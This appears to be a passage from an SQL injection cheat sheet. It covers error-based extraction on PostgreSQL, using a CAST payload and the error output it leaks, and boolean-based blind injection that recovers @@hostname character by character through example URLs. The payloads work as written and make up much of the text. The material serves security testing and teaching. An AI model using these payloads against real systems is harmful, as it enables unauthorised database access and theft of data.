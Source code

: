 For example, on a PostgreSQL, injecting this payload in a SQL query would result in an error since the LIMIT clause is expecting a numeric value.

```sql
LIMIT CAST((SELECT version()) as numeric) 
```

The error will leak the output of the `version()`.

```ps1
ERROR: invalid input syntax for type numeric: "PostgreSQL 9.5.25 on x86_64-pc-linux-gnu"
```


## Blind Injection

Blind SQL Injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response. 


### Boolean Based Injection

Attacks rely on sending an SQL query to the database, making the application return a different result depending on whether the query returns TRUE or FALSE. The attacker can infer information based on differences in the behavior of the application.

Size of the page, HTTP response code, or missing parts of the page are strong indicators to detect whether the Boolean-based Blind SQL injection was successful.

Here is a naive example to recover the content of the `@@hostname` variable.

**Identify Injection Point and Confirm Vulnerability** : Inject a payload that evaluates to true/false to confirm SQL injection vulnerability. For example: 

```ps1
http://example.com/item?id=1 AND 1=1 -- (Expected: Normal response)
http://example.com/item?id=1 AND 1=2 -- (Expected: Different response or error)
```
 
**Extract Hostname Length**: Guess the length of the hostname by incrementing until the response indicates a match. For example: 

```ps1
http://example.com/item?id=1 AND LENGTH(@@hostname)=1 -- (Expected: No change)
http://example.com/item?id=1 AND LENGTH(@@hostname)=2 -- (Expected: No change)
http://example.com/item?id=1 AND LENGTH(@@hostname)=N -- (Expected: Change in response)
```

**Extract Hostname Characters** : Extract each character of the hostname using substring and ASCII comparison: 

```ps1
http://example.com/item?id=1 AND ASCII(SUBSTRING(@@hostname, 1, 1)) > 64 -- 
http://example.com/item?id=1 AND ASCII(SUBSTRING(@@hostname, 1, 1)) = 104 -- 
```
 
Then repeat the method to discover every characters of the `@@hostname`. Obviously this example is not the fastest way to obtain them. Here are a few pointers to speed it up:

- Extract characters using dichotomy: it reduces the number of requests from linear to logarithmic time, making data extraction much more efficient. 
